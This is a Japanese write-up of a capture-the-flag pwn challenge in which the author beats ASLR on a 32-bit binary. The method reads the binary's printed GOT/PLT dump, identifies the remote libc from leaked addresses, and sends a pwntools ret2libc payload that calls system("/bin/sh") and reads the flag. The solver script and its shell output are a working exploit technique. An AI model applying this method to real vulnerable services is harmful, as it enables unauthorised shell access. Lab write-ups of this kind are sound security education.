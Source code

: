 ## Here are GOT and PLT (435pt / 14 solves) [★★★☆]
> シェルを起動し、フラグを取得してください。
> 
> **ASLR は有効になっています。**
> 
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8108` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: gotplt.zip
> 
> ZIPのハッシュ値(SHA256): `e750fa4419eb54468e4554bca39d07a67d7ab3c96f02afa9bb51031ff610de1a`

こちらもなんとソースコード無し。挙動を知るべくバイナリを実行してみる。
```
This is my .plt section (virtual address: 0x8049020, size: 0xe0)
08049020: ff 35 (f8 bf 04 08) ff 25 fc bf 04 08 00 00 00 00
08049030: ff 25 (00 c0 04 08) 68 00 00 00 00 e9 e0 ff ff ff
08049040: ff 25 (04 c0 04 08) 68 08 00 00 00 e9 d0 ff ff ff
08049050: ff 25 (08 c0 04 08) 68 10 00 00 00 e9 c0 ff ff ff
08049060: ff 25 (0c c0 04 08) 68 18 00 00 00 e9 b0 ff ff ff
08049070: ff 25 (10 c0 04 08) 68 20 00 00 00 e9 a0 ff ff ff
08049080: ff 25 (14 c0 04 08) 68 28 00 00 00 e9 90 ff ff ff
08049090: ff 25 (18 c0 04 08) 68 30 00 00 00 e9 80 ff ff ff
080490a0: ff 25 (1c c0 04 08) 68 38 00 00 00 e9 70 ff ff ff
080490b0: ff 25 (20 c0 04 08) 68 40 00 00 00 e9 60 ff ff ff
080490c0: ff 25 (24 c0 04 08) 68 48 00 00 00 e9 50 ff ff ff
080490d0: ff 25 (28 c0 04 08) 68 50 00 00 00 e9 40 ff ff ff
080490e0: ff 25 (2c c0 04 08) 68 58 00 00 00 e9 30 ff ff ff
080490f0: ff 25 (30 c0 04 08) 68 60 00 00 00 e9 20 ff ff ff

This is my .got.plt section (virtual address: 0x804bff4, size: 0x40)
0804bff4: (08 bf 04 08) (40 da fd f7) (80 8f fb f7) (d0 21 ef f7)
0804c004: (60 55 d8 f7) (20 b5 db f7) (66 90 04 08) (f0 c6 e6 f7)
0804c014: (86 90 04 08) (96 90 04 08) (30 c0 e6 f7) (80 de e7 f7)
0804c024: (c6 90 04 08) (10 86 dd f7) (f0 df e7 f7) (10 d2 e6 f7)

I'll even show some function address!
- munmap() addr is 80490e0
- open() addr is 80490a0
(Note: The above GOT dump is taken after these functions are called at least one time

Now, let's exploit!
Name?
```

`Now, let's exploit!`までがざっと表示された後、`Name?`で入力を求められるようになっている。恐らくBoFでのシェル起動が本問題の目的であると思われるが、たとえば`system()`を呼び出そうとしても、まずlibcのベースアドレスを知る必要があるのに加え、この問題ではlibcが配布されておらず、使われているlibcの特定もしなければならない。  
普通の問題なら`puts()`などでlibcのアドレスをリークさせる手段が良く用いられているが、今回はありがたいことにPLTとGOTの一部に加え、`munmap@plt`と`open@plt`を教えてくれているため、これを利用させてもらう。なお、PLT・GOTについての解説は[ここ](https://keichi.dev/post/plt-and-got/)とかが参考になった。
```
$ objdump -d -M intel ./vuln | grep 80490e0
080490e0 <munmap@plt>:
 80490e0:       ff 25 2c c0 04 08       jmp    DWORD PTR ds:0x804c02c
 80495cf:       e8 0c fb ff ff          call   80490e0 <munmap@plt>
 80496bd:       68 e0 90 04 08          push   0x80490e0
```

与えられる情報をそのまま利用しても良いが、ここでは分かりやすさのため`objdump`を使う。`munmap()`の実際の関数アドレスは`0x804c02c`にセットされることが分かるので、上で言うところの`f0 df e7 f7`が関数アドレスになる。（リトルエンディアンに注意）同様に`open()`の関数アドレスも分かるので、この2つのアドレスの下2, 3桁を[このサイト](https://libc.blukat.me)に使って、libcの種類を特定する。  
ただし、関数アドレス特定の作業は**必ず本番環境で行う**こと。ローカル上で行っても遠回しに`ldd`しているだけになってしまう。

↓こんな感じに使う

<img src="images/image01.png" width="80%"></img>

今回は`libc6_2.39-0ubuntu9_i386.so`を使った。これによりlibcのベースアドレスも特定できるようになったので、いよいよ攻撃に移る。方針としては`system("/bin/sh")`を実行するオーソドックスな手法にした。ソルバは以下の通り。
```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

libc = ELF('./libc6_2.39-0ubuntu9_i386.so')
proc = remote('target_ip', 8108)
#libc = ELF('/lib32/libc.so.6')
#proc = process(target)

addr_open = 0
addr_munmap = 0

proc.recvuntil('0804c014: ')
addr_open = proc.recvline()[29:40].decode().replace(' ', '')
addr_open = bytes.fromhex(addr_open)[::-1].hex()
#print(addr_open)

libc_base = int(addr_open, 16) - libc.symbols['open']
addr_system = libc_base + libc.symbols['system']
addr_binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

payload = b'A' * 16
payload += pack(addr_system)
payload += b'A' * 4
payload += pack(addr_binsh)

proc.sendlineafter('Name? ', payload)

proc.interactive()
```

実行するとフラグが得られた。
```
[*] Switching to interactive mode
Nice to meet you, AAAAAAAAAAAAAAAA0\xd4\xd5\xf7AAAA\xe8\x1d\xed\xf7
$ ls
flag.txt
vuln
$ cat flag.txt
flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}
```

### `flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}`